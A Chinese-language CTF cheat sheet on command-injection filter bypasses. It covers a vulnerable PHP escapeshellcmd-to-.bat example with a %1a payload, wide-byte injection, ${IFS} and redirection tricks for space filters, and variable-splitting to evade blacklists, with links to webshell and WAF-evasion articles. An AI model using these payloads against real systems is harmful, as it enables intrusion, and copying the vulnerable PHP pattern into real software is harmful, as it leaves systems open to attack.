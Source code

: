 # 绕过escapeshellcmd
## 法一：执行bat
```
<?php
    $command = 'dir '.$_POST['dir'];
    $escaped_command = escapeshellcmd($command);
    var_dump($escaped_command);
    file_put_contents('out.bat',$escaped_command);
    system('out.bat');
?>
```
执行.bat文件的时候，利用%1a，可以绕过过滤执行命令。
payload:
```
dir=../ %1a whoami
```
## 法二：宽字节注入
php5.2.5及之前可以通过输入多字节来绕过。现在几乎见不到了。
```
escapeshellcmd("echo ".chr(0xc0).";id"); 
```
之后该语句会变成
```
echo 繺;id 
```
从而实现 id 命令的注入。

# 空格过滤
## 法一： ${IFS}
```
ubuntu@VM-207-93-ubuntu:~$ cat flag
nice day
ubuntu@VM-207-93-ubuntu:~$ cat${IFS}flag
nice day
```

## 法二： 重定向符<>
payload1：
```
ubuntu@VM-207-93-ubuntu:~$ cat<>flag
nice day
```
payload2：
```
ubuntu@VM-207-93-ubuntu:~$ cat<flag
nice day
```

# 黑名单绕过
## 法一： 拼接
```
ubuntu@VM-207-93-ubuntu:~$ a=c;b=at;c=flag;$a$b $c
nice day
```
## 法二： 利用已存在的资源
从已有的文件或者环境变量中获得相应的字符。

# 工具
+ [shelling
](https://github.com/ewilded/shelling)
# Refference
+ [PHP绕过open_basedir列目录的研究](https://www.leavesongs.com/PHP/php-bypass-open-basedir-list-directory.html)
+ [eval长度限制绕过 && PHP5.6新特性](https://www.leavesongs.com/PHP/bypass-eval-length-restrict.html)
+ [关于lnmp目录禁止执行的绕过与正确方法](https://www.leavesongs.com/PENETRATION/nginx-deny-exec-php-file.html)
+ [一些不包含数字和字母的webshell](https://www.leavesongs.com/PENETRATION/webshell-without-alphanum.html)
+ [php webshell分析和绕过waf技巧](http://bobao.360.cn/learning/detail/3271.html)
+ [【技术分享】命令执行和绕过的一些小技巧](http://bobao.360.cn/learning/detail/3192.html)
+ [浅谈CTF中命令执行与绕过的小技巧](http://www.freebuf.com/articles/web/137923.html)